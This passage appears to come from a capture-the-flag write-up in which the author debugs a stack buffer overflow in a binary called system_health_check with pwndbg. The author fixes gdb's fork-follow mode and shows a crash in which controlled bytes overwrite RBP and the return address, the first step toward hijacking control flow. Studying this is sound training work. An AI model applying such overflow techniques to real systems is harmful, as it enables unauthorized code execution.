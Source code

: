 ```bash
  573 root      20   0    7040   3524   3072 R   0.0   0.2   0:00.00 top
[Inferior 3 (process 573) exited normally]
pwndbg>
```



Ops. Nothing of buffer overflow.  Why ? The answer is in the first lines - The `gdb` is in `child` follow fork mode. In few words, the `gdb` attach I new process that is `top  ` command and follow  them.  I  must type `set follow-fork-mode parent` inside `gdb`  and repeat the process again:



```bash
pwndbg> set follow-fork-mode parent
pwndbg>
pwndbg> r < a.txt
Starting program: /pwd/system_health_check < a.txt
Enter password to get system details:

Access Granted

[Detaching after vfork from child process 596]
top - 16:42:28 up  1:21,  0 users,  load average: 0.00, 0.04, 0.01
Tasks:   6 total,   1 running,   5 sleeping,   0 stopped,   0 zombie
%Cpu(s):  0.0 us,  0.0 sy,  0.0 ni,100.0 id,  0.0 wa,  0.0 hi,  0.0 si,  0.0 st
MiB Mem :   1987.5 total,    949.3 free,    365.0 used,    673.2 buff/cache
MiB Swap:   1024.0 total,   1024.0 free,      0.0 used.   1460.2 avail Mem

  PID USER      PR  NI    VIRT    RES    SHR S  %CPU  %MEM     TIME+ COMMAND
    1 root      20   0    4184   2956   2736 S   0.0   0.1   0:00.03 bash
    7 root      20   0   11200   7088   4892 S   0.0   0.3   0:02.07 zsh
  589 root      20   0   96764  63652  27416 S   0.0   3.1   0:00.62 gdb
  592 root      20   0    2340   1396   1296 S   0.0   0.1   0:00.00 system_health_c
  596 root      20   0    2588    680    608 S   0.0   0.0   0:00.00 sh
  597 root      20   0    7040   3504   3080 R   0.0   0.2   0:00.00 top

Program received signal SIGSEGV, Segmentation fault.
0x00000000004012dd in remote_system_health_check ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────[ REGISTERS ]───────────────────────────────────────────────
 RAX  0x0
 RBX  0x0
 RCX  0x0
 RDX  0x0
 RDI  0x2
 RSI  0x7fffffffe150 ◂— 0x0
 R8   0x7fffffffe150 ◂— 0x0
 R9   0x0
 R10  0x8
 R11  0x246
 R12  0x4010c0 (_start) ◂— xor    ebp, ebp
 R13  0x0
 R14  0x0
 R15  0x0
 RBP  0x4242424242424242 ('BBBBBBBB')
 RSP  0x7fffffffe588 ◂— 'BBBBBBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC'
 RIP  0x4012dd (remote_system_health_check+118) ◂— ret
───────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────
 ► 0x4012dd <remote_system_health_check+118>    ret    <0x4242424242424242>
────────────────────────────────────[ STACK ]───────────────────────────────────────────────
00:0000│ rsp  0x7fffffffe588 ◂— 'BBBBBBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC'
01:0008│      0x7fffffffe590 ◂— 'CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC'
... ↓
07:0038│      0x7fffffffe5c0 ◂— 0x4343 /* 'CC' */
```